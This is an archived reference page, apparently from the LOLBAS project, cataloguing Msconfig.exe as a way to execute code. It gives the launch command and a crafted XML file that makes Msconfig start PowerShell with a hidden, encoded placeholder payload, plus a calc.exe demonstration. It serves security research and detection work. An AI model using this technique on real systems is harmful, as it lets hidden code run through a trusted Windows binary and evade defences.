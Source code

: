# UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Msconfig.exe

* Functions: Execute

```
Msconfig.exe -5  
 
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken


Resources:
* https://twitter.com/pabraeken/status/991314564896690177

Full path:
```
c:\windows\system32\msconfig.exe
```

Notes:
* Prerequisites
add a crafted .xml in System32

```
<?xml version="1.0" ?> 
<MSCONFIGTOOLS> 
<a NAME="LOLBin" PATH="%windir%\System32\WindowsPowerShell\v1.0\powershell.exe" 
DEFAULT_OPT="-nop -sta -enc -w 1 YOURBASE64" ADV_OPT="-command calc.exe" HELP="LOLBin MSCONFIGTOOLS"/> 
</MSCONFIGTOOLS>
```
 
